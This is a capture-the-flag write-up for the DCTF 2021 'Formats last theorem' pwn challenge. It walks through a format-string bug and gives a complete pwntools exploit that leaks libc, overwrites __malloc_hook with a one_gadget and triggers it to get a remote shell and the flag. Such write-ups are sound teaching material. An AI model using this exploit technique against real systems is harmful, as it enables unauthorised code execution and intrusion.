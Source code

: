 # DCTF 2021

## Formats last theorem

> 400
> 
> I dare you to hook the malloc
> 
> `nc dctf-chall-formats-last-theorem.westeurope.azurecontainer.io 7482`
>
> [formats\_last\_theorem](formats_last_theorem) [Dockerfile](Dockerfile)

Tags: _pwn_ _x86-64_ _malloc_ _malloc-hook_ _write-what-where_ _format-string_


## Summary

The challenge description turned this into a 5-minute challenge.  Without this hint, I think many would have been lost in an endless loop.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All mitigations in place sans canary, but since there's no `return`, it does not matter.


### Decompile with Ghidra

```c
void vuln(void)
{
  long in_FS_OFFSET;
  char local_78 [104];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  do {
    puts("I won\'t ask you, what your name is. It\'s getting kinda old at this point");
    __isoc99_scanf("%100s",local_78);
    puts("you entered");
    printf(local_78);
    puts("");
    puts("");
  } while( true );
}
```

Endless loop with endless format-string exploits.

The plan is simple, use `printf` to leak libc, then, per the challenge description, use `printf` _hook the malloc_, and then `printf` again to [trigger the hook](http.s://github.com/Naetw/CTF-pwn-tips#use-printf-to-trigger-malloc-and-free).


> The libc version was provided in the form of a `Dockerfile`.  I've included it (`libc.so.6`) as part of this writeup since a future update to Ubuntu 18.04 may change the version of libc.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./formats_last_theorem')

if args.REMOTE:
    p = remote('dctf-chall-formats-last-theorem.westeurope.azurecontainer.io', 7482)
    libc = ELF('./libc.so.6')
else:
    import signal
    p = process(('stdbuf -i0 -o0 -e0 '+binary.path).split(),preexec_fn=lambda: signal.signal(signal.SIGALRM, signal.SIG_IGN))
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# one_gadget
libc.symbols['gadget'] = [0x4f3d5, 0x4f432, 0x10a41c][1]
```

> one_gadget if available is the easy win here.  The second of the three possible options works just fine.

Standard pwntools setup, however I added `gadget` symbol to libc, and have my local process ignoring SIGALRM.

> No `setvbuf` in challenge binary, so I had to prepend `stdbuf`.

```python
p.sendlineafter('point\n','%23$p')
p.recvuntil('entered\n')
__libc_start_main = int(p.recvline().strip(),16) - 231
libc.address = __libc_start_main - libc.sym.__libc_start_main
log.info('libc.address: ' + hex(libc.address))
```

The above provides the leak, _but why `23`?_

To find libc in the stack and leak it just use GDB (with an Ubuntu 18.04 machine/container, see the challenge included [Dockerfile](Dockerfile)):

```
0x00007fffffffe300│+0x0000: 0x0000000070243625 ("%6$p"?)	 ← $rsp, $rdi
0x00007fffffffe308│+0x0008: 0x0000000000000000
0x00007fffffffe310│+0x0010: 0x0000000000000000
0x00007fffffffe318│+0x0018: 0x0000000000000000
0x00007fffffffe320│+0x0020: 0x0000000000000009
0x00007fffffffe328│+0x0028: 0x00007ffff7dd5660  →  <dl_main+0> push rbp
0x00007fffffffe330│+0x0030: 0x00007fffffffe398  →  0x00007fffffffe468  →  0x00007fffffffe6e0  →  "/pwd/datajerk/dctf2021/formats_last_theorem/format[...]"
0x00007fffffffe338│+0x0038: 0x0000000000f0b5ff
0x00007fffffffe340│+0x0040: 0x0000000000000001
0x00007fffffffe348│+0x0048: 0x000055555540081d  →  <__libc_csu_init+77> add rbx, 0x1
0x00007fffffffe350│+0x0050: 0x00007ffff7de3b40  →  <_dl_fini+0> push rbp
0x00007fffffffe358│+0x0058: 0x0000000000000000
0x00007fffffffe360│+0x0060: 0x00005555554007d0  →  <__libc_csu_init+0> push r15
0x00007fffffffe368│+0x0068: 0xb049ba36a07c5200
0x00007fffffffe370│+0x0070: 0x00007fffffffe380  →  0x00005555554007d0  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffe378│+0x0078: 0x00005555554007c4  →  <main+24> mov eax, 0x0
0x00007fffffffe380│+0x0080: 0x00005555554007d0  →  <__libc_csu_init+0> push r15
0x00007fffffffe388│+0x0088: 0x00007ffff7a03bf7  →  <__libc_start_main+231> mov edi, eax
```

Before counting down to `__libc_start_main+231` for the leak, you'll need to know the offset, to find that just send `%nn$p` where `nn > 0`, and keep incrementing `nn` until the output matches the intput, e.g.:

```
I won't ask you, what your name is. It's getting kinda old at this point
%6$p
you entered
0x70243625
```

It's a match, the offset is `6`.  That'd put `__libc_start_main+231` at parameter `23` (look at the stack above and just count down).

With libc location known, all that is left is to _hook the malloc_:

```python
p.sendlineafter('point\n',fmtstr_payload(6,{libc.sym.__malloc_hook:libc.sym.gadget},write_size='short'))
p.sendlineafter('point\n','%65537c')
p.recvuntil('entered\n')
p.interactive()
```

Standard pwntools format-string to set the hook with our gadget.  The `write_size='short'` reduces the size of the payload from 120 bytes to 64 (we only have 100 bytes to work with).

After the hook set, just `printf` something large to trigger it.

> If you're new to format-string exploits read this: [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf).
>
> Many examples of how to use pwntools `fmtstr_payload`: [dead-canary](https://github.com/datajerk/ctf-write-ups/tree/master/redpwnctf2020/dead-canary).

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/dctf2021/formats_last_theorem/formats_last_theorem'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to dctf-chall-formats-last-theorem.westeurope.azurecontainer.io on port 7482: Done
[*] '/pwd/datajerk/dctf2021/formats_last_theorem/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7f22bb2f8000
[*] Switching to interactive mode
$ id
uid=1000(pilot) gid=1000(pilot) groups=1000(pilot)
$ cat flag.txt
dctf{N0t_all_7h30r3ms_s0und_g00d}
```
